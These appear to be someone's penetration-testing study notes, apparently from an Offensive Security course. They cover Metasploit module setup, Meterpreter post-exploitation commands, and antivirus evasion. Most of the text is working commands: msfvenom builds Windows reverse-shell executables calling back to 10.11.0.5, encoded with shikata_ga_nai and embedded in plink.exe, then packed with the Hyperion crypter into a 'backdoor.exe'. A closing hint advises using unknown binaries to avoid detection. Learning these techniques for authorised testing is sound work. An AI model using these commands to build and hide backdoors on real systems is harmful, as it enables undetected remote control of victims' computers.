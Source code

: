 ```text
$ mkdir -p ~/.msf4/modules/exploits/linux/misc

$ cd ~/.msf4/modules/exploits/linux/misc

$ cp /usr/share/metasploitframework/modules/exploits/linux/misc/gld_postfix.rb ./crossfire.rb
$ vim crossfire.rb
--- --> (script is on pg331)
```

### Meterpreter post exploitation fetures

```text
meterpreter > help
meterpreter > ?

msf exploit(handler) > search post

meterpreter > background        # or [ctrl-z]

msf exploit(handler) > use exploit/windows/local/service_permissions
```

## Bypassing AntiVirus Software

#### Unencoded

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -o shell_reverse.exe`

#### skitata-ga-ni

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe`

#### Embedded

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`

### Crypting with software protectors - Hyperion

```text
$ cp shell_reverse_msf_encoded_embedded.exe backdoor.exe

$ cp /usr/share/windows-binaries/Hyperion-1.0.zip .

$ unzip Hyperion-1.0.zip

$ cd Hyperion-1.0/

$ i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
$ cp -p /usr/lib/gcc/i686-w64-mingw32/6.1-win32/libgcc_s_sjlj-1.dll .
$ cp -p /usr/lib/gcc/i686-w64-mingw32/6.1-win32/libstdc++-6.dll .
$ wine hyperion.exe ../backdoor.exe ../crypted.exe
```

{% hint style="info" %}
The most foolproof method of bypassing antivirus software protections is to use tools and binaries that are unknown to AV vendors, either by writing your own, or by finding and using unique payloads.
{% endhint %}

\*C reverse shell code from google search - pg343



[Unknown]: Ownage Dept
[Unknown]: Offensive Security
